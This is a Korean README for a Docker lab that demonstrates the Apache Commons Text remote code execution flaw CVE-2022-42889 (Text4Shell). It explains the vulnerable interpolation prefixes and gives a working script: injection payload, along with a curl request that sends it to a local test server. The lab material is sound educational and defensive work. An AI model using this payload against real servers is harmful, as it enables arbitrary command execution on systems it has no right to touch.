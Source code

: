 # Apache Commons Text 원격 코드 실행 취약점 (CVE-2022-42889)

Apache Commons Text의 원격 코드 실행 취약점 (CVE-2022-42889, 일명 Text4Shell)을 시연하는 Docker 기반 환경을 구성한다.

---

## 취약점 개요

| 항목 | 내용 |
|:---|:---|
| 취약점 ID | CVE-2022-42889 |
| 영향 라이브러리 | Apache Commons Text |
| 문제 기능 | 문자열 보간 (String Interpolation) |
| CVSS 점수 | 9.8 (심각) |
| 영향 받는 버전 | 1.5 ~ 1.9 |
| 패치된 버전 | 1.10.0 이상 |

---

## 취약점 발생 원리

Apache Commons Text의 `StringSubstitutor` 클래스는 `${prefix:name}` 형식의 문자열 템플릿을 평가한다.  
취약한 버전에서는 다음과 같은 위험한 접두사가 기본 활성화되어 있다.

- `script:` : JVM 스크립트 엔진을 통한 코드 실행
- `dns:` : DNS 레코드 조회
- `url:` : 외부 URL에서 데이터 로드

공격자는 악성 입력을 통해 서버 측에서 임의의 명령어를 실행할 수 있다.

악성 입력 예시는 다음과 같다.

```text
${script:javascript:java.lang.Runtime.getRuntime().exec('touch /tmp/hacked')}
```

## 디렉터리 구조
```text
CVE-2022-42889/
├── docker-compose.yml
├── Dockerfile
└── app/
    ├── pom.xml
    └── src/
        └── main/
            └── java/
                └── com/
                    └── example/
                        └── DemoApplication.java
```

## 시연
### 컨테이너 빌드 및 실행
``` text
docker-compose up --build -d
```
### 악성 입력 전달

``` text
${script:javascript:java.lang.Runtime.getRuntime().exec('touch /tmp/hacked')}
```
1. ${script:javascript:...} 는 script: 접두사를 이용해 JVM의 자바스크립트 엔진을 호출하는 부분이다.
2. java.lang.Runtime.getRuntime().exec('touch /tmp/hacked') 는 서버 시스템 명령어 실행을 의미한다.
3. touch /tmp/hacked 명령어는 /tmp/hacked 파일을 생성하는 리눅스 명령이다.
4. 즉, 이 입력을 전달하면 서버에서 실제로 /tmp/hacked라는 빈 파일이 만들어진다.
url 인코딩 후, 아래와 같이 Localhost:8080에 입력
``` text
curl "http://localhost:8080/test?input=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27touch%20%2Ftmp%2Fhacked%27%29%7D"
```
![PoC 요청 결과](./CVE-2022-42889/1.png)
명령이 실행 중이며 아직 종료되지 않았다는 의미이다. (touch 명령은 바로 끝남)

### 컨테이너 내부 파일 생성 여부 확인
![PoC 요청 결과](./CVE-2022-42889/2.png)
/tmp/hacked 파일이 생성된 것을 확인할 수 있다.
